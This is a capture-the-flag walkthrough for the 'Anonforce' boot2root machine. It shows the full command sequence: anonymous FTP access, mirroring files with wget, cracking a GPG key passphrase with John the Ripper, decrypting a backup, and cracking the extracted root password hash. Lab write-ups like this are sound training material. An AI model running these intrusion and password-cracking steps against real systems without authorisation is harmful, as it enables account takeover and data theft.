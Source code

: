 # Anonforce
boot2root machine for FIT and bsides guatemala CTF

10.201.110.177

## User Flag

`:> nmap 10.201.110.177`

 ![nmap 1](assets/anonforce-01-nmap-01.png)  

 Perform anonymous login  

 ![ftp 1](assets/anonforce-02-ftp-01.png) 

 Attempt to download the file via the ftp but fails.

 `get melodias`

![ftp 1](assets/anonforce-03-ftp-02.png)

Exit out the command line and try combining the wget and ftp protocols  

`:> wget -m --ftp-user=anonymous --ftp-password='' ftp://10.201.110.177/home/melodias`  

![wget 1](assets/anonforce-04-wget-01.png)

Downloaded nine files

![wget 2](assets/anonforce-05-wget-02.png)

Move into the downloaded directories and simultaneously realize why the ftp commands didn't work correctly :shrug:

![User.txt](assets/anonforce-06-user-txt.png)


## Root Flag

Clearly the "notread" directly is a target.  
This directory contains two files. 

![notread directory](assets/anonforce-07-root-01.png)

Use `:> mget .` to retrieve all (both) files.

![mget the files](assets/anonforce-09-root-02.png)

Exit the ftp
locate the downloaded files and place them into their own directly, for ease of use.

![notread directory](assets/anonforce-10-root-03a.png)


Convert the private key to something which can be further exploited. The most common tool for this is John the Ripper.

`:> gpg2john private.asc > privateOut`

![privateout](assets/anonforce-11-root-04.png)

Use John the Ripper to identify teh password

`:> john privateOut --wordlist=/usr/share/wordlist/rockyou.txt`

![cracked](assets/anonforce-12-root-05.png)

Import the private key with the discovered password

`:> gpg --import private.asc`

![key import](assets/anonforce-13-root-06.png)

![key import result](assets/anonforce-14-root-07.png)

Decrypt the backup file

`:> gpg --decrypt backup.pgp > plainbackup.txt`

![plaintext backup](assets/anonforce-15-root-08.png)


Isolate the root hash

`:> grep root plainbackup.txt > root.txt`
`:> cat root.txt`
`:> cut -d ':' -f 2 root.txt > roothash.txt`
`:> cat roothash.txt`

![Isolated hash](assets/anonforce-16-root-09.png)


Attempt to quickly idenitfy the hash.  Hash-ID is not installed on the machine

![Hash identify](assets/anonforce-17-root-10.png)


Let John the Ripper figure it out

`:> john --wordlist=/usr/share/wordlists/rockyou.txt`

![hash cracked](assets/anonforce-18-root-11.png)

Login and find the flag.

![hash cracked](assets/anonforce-19-root-12.png)

